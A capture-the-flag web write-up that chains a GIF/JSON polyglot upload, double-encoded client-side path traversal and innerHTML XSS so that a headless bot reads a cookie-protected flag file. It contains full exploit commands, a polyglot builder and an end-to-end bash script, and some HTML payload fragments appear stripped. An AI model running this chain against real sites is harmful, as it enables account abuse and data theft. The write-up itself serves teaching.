


# DMC : CTF Writeup
**Challenge:** Web  
**Target:** `http://134.112.58.12:8000`  
**Flag:** `INFERNOCTF{w3lc0m3_t0_t3men_ni_gru_s0n_0f_sp4rd4}`  
**Chain:** GIF89a Polyglot Upload → Double-Decode CSPT → innerHTML XSS → Flag via console.log

---

## Overview

This challenge requires chaining four vulnerabilities together:

1. **File upload bypass** — upload a GIF/JSON polyglot disguised as an image
2. **Client-Side Path Traversal (CSPT)** — manipulate a user-controlled URL to reach an unintended endpoint
3. **Cross-Site Scripting (XSS)** — inject JavaScript via unsanitized `innerHTML`
4. **Bot-assisted flag exfiltration** — make a headless browser fetch the flag using its privileged cookie

None of these alone gives the flag. The power is in chaining them.

---

## Step 1 : Recon





### Reading the page source

Opening `http://134.112.58.12:8000` gives a SPA. The HTML is almost empty that means all the juice in JavaScript:


```bash
curl -s http://134.112.58.12:8000/js/app.js 
```

Output reveals many things with some comments:

```js
// Three API endpoints exposed in plain sight
fetch('/api/v2/codex/scrolls/all')
fetch(`/api/v2/codex/scrolls/${id}`)        // id is USER CONTROLLED
fetch('/api/v1/relic/upload', { method: 'POST', body: form })

// XSS sink — content field has NO sanitization
p.innerHTML = para;

// Router — applies ONE decode to the hash before fetching
const match = hash.match(/^#\/scroll\/(.+)$/);
if (match) renderScroll(decodeURIComponent(match[1]));
```

### Why only `content` is injectable

Looking at the scroll renderer carefully:

```js
// title, author, date — all pass through esc() which encodes < > " &
el.innerHTML = `
  <h2 class="mc-title">${esc(s.title)}</h2>
  <div class="mc-meta">
    <span>${esc(s.author)}</span>
    <span>${esc(s.date)}</span>
  </div>`;

// content — NO esc(), goes directly into innerHTML
(s.content || '').split('\n\n').forEach(para => {
  const p = document.createElement('p');
  p.innerHTML = para;   // raw, unsanitized — XSS sink
  body.appendChild(p);
});
```

`esc()` converts `<`, `>`, `"`, `&` to HTML entities — injecting into title/author/date just renders as text. `content` has no such protection. Any ``, `<script>`, or event handler in `content` gets executed as real HTML. That's why our payload must be in the `content` field specifically.

### SPA fallback behavior

Visiting a non-existent scroll like `#/scroll/99` shows what happens when the API returns an error:


This also reveals something important — Express has a catch-all SPA fallback:

```js
app.get('*', (req, res) => {
    res.sendFile(path.join(PUBLIC, 'index.html'));
});
```

Any unknown path returns `index.html` with a **200 status**. When probing endpoints, a 200 response containing `<!DOCTYPE html>` is the SPA fallback, not a real API response. Filter by content, not status code.

### UI hints

The home page shows:
```
// 6 files declassified · Circle IX sealed · Forbidden Tome: access restricted
```

So there is a "Forbidden Tome" , you can try common forms will gets you to `forbidden-tome.txt` ( It was hinted to avoid any long ah guessing hours):

```bash
curl -s http://134.112.58.12:8000/api/v1/relic/read/forbidden-tome.txt
```

```json
{"error":"Forbidden — only the Condemned may read the Tome."}
```

 The file exists at that exact path but requires authentication — we cannot access it directly so something with elevated privileges must fetch it for us

### The infernal bot

Port 4000 is open:

```bash
nc 134.112.58.12 4000
```

```
=== THE QLIPHOTH — Infernal Bot ===
The Condemned Librarian awaits your scroll URL.
URL must start with: http://dantes-codex-nginx/
```

This tells us:
- A headless browser visits any URL we submit
- It uses the internal Docker hostname `dantes-codex-nginx`
- It almost certainly has a privileged cookie that unlocks `forbidden-tome.txt`
- If we execute JS inside the bot's browser, that JS runs with the bot's cookies

**Attack plan:** make the bot execute our JavaScript, which fetches `forbidden-tome.txt` using its cookie and sends the flag back via `console.log`.

---

## Step 2 — File Upload and the JSON Gadget

### The upload modal

The UI exposes an artifact submission portal:


The upload endpoint is already visible in `app.js`. Testing it:

```bash
printf 'GIF89a{"test":1}' > /tmp/test.gif
curl -s -X POST http://134.112.58.12:8000/api/v1/relic/upload \
  -F "relic=@/tmp/test.gif;type=image/gif"
```

```json
{"success":true,"id":"...","filename":"uuid.gif"}
```

The server validates magic bytes only , not the full file content. Anything after `GIF89a` is accepted unchecked.

### Discovering the JSON gadget

Fuzzing `/api/v1/relic/` finds `/api/v1/relic/json/`. Testing with an uploaded UUID:

```bash
curl -s http://134.112.58.12:8000/api/v1/relic/json/<uuid>.gif
```

```json
{"test":1}
```

The gadget strips everything before the first `{` and serves the rest as `application/json`:

```
File on disk:   GIF89a\x01\x00{"test":1}
Gadget reads:   finds '{' at byte 8
Gadget serves:  {"test":1}  as Content-Type: application/json
```

### Building the GIF89a polyglot

A polyglot file is simultaneously valid as two different formats. The GIF magic signature is only 6 bytes — PHP checks these and stops. After that we put valid JSON with our XSS payload in the `content` field.
you can read this article about it here : https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a

```
Bytes 0-7:   GIF89a\x01\x00   ← PHP sees valid GIF → upload accepted
Bytes 8+:    {"id":99,...}    ← JSON gadget strips to here → serves as JSON
```

### The XSS payload 

```html
r.json()).then(d=>console.log(d.flag)).catch(e=>console.log('err:'+e))">
```

| Part | Why |
|---|---|
| `r.json())` | Endpoint returns JSON — must parse before accessing fields |
| `.then(d=>console.log(d.flag))` | Extracts flag string, sends via console.log which the bot relays back to our TCP socket |
| `.catch(e=>console.log('err:'+e))` | If anything fails we still get output instead of silence — essential for debugging |

### Creating and uploading the polyglot

```bash
python3 -c "
xss = \"fetch('/api/v1/relic/read/forbidden-tome.txt').then(r=>r.json()).then(d=>console.log(d.flag)).catch(e=>console.log('err:'+e))\"
body = '{\"id\":99,\"circle\":9,\"title\":\"x\",\"author\":\"x\",\"date\":\"x\",\"content\":\"\"}'
import sys; sys.stdout.buffer.write(b'GIF89a\x01\x00' + body.encode())
" > /tmp/relic.gif
```


Verify magic bytes then upload:

```bash
xxd /tmp/relic.gif | head -3
# 00000000: 4749 4638 3961 0100 7b22 6964 223a 3939  GIF89a..{"id":99

curl -s -X POST http://134.112.58.12:8000/api/v1/relic/upload \
  -F "relic=@/tmp/relic.gif;type=image/gif"
```

```json
{"success":true,"id":"d8ac581a-7b43-e1bd-68ae-45a5333dea0a","filename":"d8ac581a-7b43-e1bd-68ae-45a5333dea0a.gif"}
```

Confirm the JSON gadget serves it correctly:

```bash
curl -s http://134.112.58.12:8000/api/v1/relic/json/d8ac581a-7b43-e1bd-68ae-45a5333dea0a.gif
```

```json
{"id":99,"circle":9,...,"content":""}
```

The polyglot is in place. Now we need to deliver it through the scroll endpoint so `innerHTML` renders it in the bot's browser.

---

## Step 3 — Client-Side Path Traversal (CSPT)

### What is CSPT?

CSPT occurs when user-controlled input flows directly into a `fetch()` call without validation, allowing the attacker to redirect the request to an unintended endpoint. you can read this article here: https://medium.com/bug-bounty-hunting/client-side-path-traversal-cspt-a-deep-dive-into-an-overlooked-vulnerability-cdf91baca715

From `app.js`:

```js
// Router: one decodeURIComponent applied to the hash value
const match = hash.match(/^#\/scroll\/(.+)$/);
if (match) renderScroll(decodeURIComponent(match[1]));

// Scroll renderer: decoded value injected directly into fetch URL
async function renderScroll(id) {
    const res = await fetch(`/api/v2/codex/scrolls/${id}`);
    // ...
    p.innerHTML = para;  // XSS sink
}
```

If `id` = `../v1/relic/json/uuid.gif` the fetch becomes:
```
/api/v2/codex/scrolls/../v1/relic/json/uuid.gif
= /api/v1/relic/json/uuid.gif
```

Our polyglot gets served as JSON. `content` goes into `innerHTML`. XSS fires.

### The nginx normalization problem

nginx sits in front of Express and normalizes URLs. Three naive attempts fail:

**Attempt 1 — plain `../`:**
Browser normalizes `../` in the URL before it even reaches the network. Stripped.

**Attempt 2 — single-encoded `%2f`:**
nginx recognizes `%2f` as an encoded slash, decodes and normalizes the traversal. Wrong path reaches Express.

**Attempt 3 — double-encoded `%252f`:**
nginx sees `%25` (encoded percent sign) followed by `2f` — not a slash it recognizes. Passes through untouched. ✓

### Why double encoding works — traced step by step

There are exactly two URL decodes in the chain:

```
Hash URL:        #/scroll/%252e%252e%252fv1%252frelic%252fjson%252fuuid%252egif
                           ↓  Decode #1: JS hash router — decodeURIComponent()
After decode #1: %2e%2e%2fv1%2frelic%2fjson%2fuuid%2egif
                           ↓  fetch() sends this to the server as-is
nginx receives:  /api/v2/codex/scrolls/%2e%2e%2fv1%2frelic%2fjson%2fuuid%2egif
                           ↓  nginx sees %2e and %2f — not a traversal it acts on
nginx passes:    unchanged to Express ✓
                           ↓  Decode #2: Express handler — decodeURIComponent()
After decode #2: ../v1/relic/json/uuid.gif
                           ↓  regex matches v1/relic/json/
Express reads:   /relics/uuid.gif → strips GIF header → serves JSON
                           ↓
innerHTML:       XSS fires in bot's browser ✓
```

The core insight: **nginx only decodes once**. By encoding the `%` character as `%25`, the slash `%2f` becomes `%252f`. nginx cannot identify this as a path separator and leaves it alone. Express then decodes it a second time and gets the actual slash.

### Building the encoded payload

```bash
FNAME="d8ac581a-7b43-e1bd-68ae-45a5333dea0a.gif"

ENCODED=$(python3 -c "
fname = \"$FNAME\"
fn = fname.replace('.', '%252e')
traversal = '%252e%252e%252f' * 3 + 'v1%252frelic%252fjson%252f'
print(traversal + fn)
")

echo $ENCODED
```

```
%252e%252e%252f%252e%252e%252f%252e%252e%252fv1%252frelic%252fjson%252fd8ac581a-7b43-e1bd-68ae-45a5333dea0a%252egif
```

---

## Step 4 — XSS Execution and Flag Exfiltration

### How the XSS fires in the bot

When the bot visits our crafted URL:

1. Hash router decodes the scroll ID once → `%2e%2e%2f...`
2. `fetch()` sends the result to Express
3. Express decodes again → `../../../v1/relic/json/uuid.gif`
4. Regex matches, polyglot read, GIF header stripped, JSON served
5. Scroll page puts `content` into `p.innerHTML`
6. `` injected into DOM
7. Image fails (`src=x` is not real) → `onerror` fires
8. Our JavaScript executes inside the bot's browser

### Why the bot's httpOnly cookie works for us

The `forbidden-tome.txt` endpoint checks for a `FLAG` cookie. The bot has this cookie set with `httpOnly: true`.

`httpOnly` means JavaScript **cannot read** the cookie via `document.cookie`. However, `httpOnly` does **not** prevent the browser from **automatically sending** the cookie with fetch requests to the same origin.

When our XSS executes inside the bot's browser:
```js
fetch('/api/v1/relic/read/forbidden-tome.txt')
```

The bot's browser attaches the FLAG cookie automatically because it is a same-origin request. The server validates it and returns the flag. We never needed to read the cookie directly.

### Sending to the bot and capturing the flag

```bash
echo "http://dantes-codex-nginx/#/scroll/$ENCODED" | nc 134.112.58.12 4000
```


---

## Full Exploit

```bash
TARGET="http://134.112.58.12:8000"
BOT_HOST="134.112.58.12"
BOT_PORT="4000"

# Step 1 — build polyglot
python3 -c "
xss = \"fetch('/api/v1/relic/read/forbidden-tome.txt').then(r=>r.json()).then(d=>console.log(d.flag)).catch(e=>console.log('err:'+e))\"
body = '{\"id\":99,\"circle\":9,\"title\":\"x\",\"author\":\"x\",\"date\":\"x\",\"content\":\"\"}'
import sys; sys.stdout.buffer.write(b'GIF89a\x01\x00' + body.encode())
" > /tmp/relic.gif

# Step 2 — upload and capture UUID
RESP=$(curl -s -X POST $TARGET/api/v1/relic/upload \
  -F "relic=@/tmp/relic.gif;type=image/gif")
echo "[+] Upload: $RESP"

FNAME=$(echo $RESP | python3 -c "import sys,json; print(json.load(sys.stdin)['filename'])")
echo "[+] Filename: $FNAME"

# Step 3 — double encode traversal
ENCODED=$(python3 -c "
fname = \"$FNAME\"
fn = fname.replace('.', '%252e')
traversal = '%252e%252e%252f' * 3 + 'v1%252frelic%252fjson%252f'
print(traversal + fn)
")
echo "[+] Encoded: $ENCODED"

# Step 4 — send to bot
echo "[+] Sending to bot..."
echo "http://dantes-codex-nginx/#/scroll/$ENCODED" | nc $BOT_HOST $BOT_PORT
```

---

## Vulnerability Summary

| Vulnerability | Location | Root Cause |
|---|---|---|
| Magic byte bypass | PHP upload handler | Only checks first 6 bytes, not full file content |
| JSON gadget | `/api/v1/relic/json/` | Strips GIF header and serves remainder as JSON |
| SPA fallback masking | Express catch-all `*` route | Unknown paths return 200 + HTML, masks endpoint discovery |
| CSPT | `app.js` `renderScroll()` | User-controlled hash value injected directly into `fetch()` |
| Double-decode bypass | nginx + Express chain | nginx decodes once, `%25` prefix survives to Express for second decode |
| innerHTML XSS | `app.js` scroll renderer | `p.innerHTML = para` with zero sanitization on `content` field only |
| httpOnly misconception | Bot cookie | httpOnly blocks `document.cookie` reads, not automatic cookie sending in fetch |

---

## Key Takeaways

- **Read `app.js` first** — all three API endpoints, the XSS sink, and the first decode were visible without authentication
- **Only `content` is injectable** — `title`, `author`, `date` all go through `esc()`. `content` does not. One unsanitized field is enough
- **SPA fallbacks hide endpoints** — a 200 with HTML is not confirmation an endpoint works; filter by content type
- **`decodeURIComponent` in the router = double-encode opportunity** — one client-side decode means one extra encoding layer needed to survive nginx
- **httpOnly ≠ not sent** — httpOnly only prevents JavaScript reading cookies, not automatic attachment to same-origin fetch requests
- **Bot `console.log` relay = free exfil** — no external infrastructure needed; the bot's own output stream delivers the flag
- **GIF89a polyglots bypass magic byte checks** — the magic signature is only 6 bytes; everything after is unchecked content

## Things would correct / change 
- Making the ui comp more readable , for the "forbidden tome" i would just say "forbidden-tome.txt" 
- /json and /read may not be that obvious as i thought at first (problems with the /json not returning {relic 404} it returns SPA)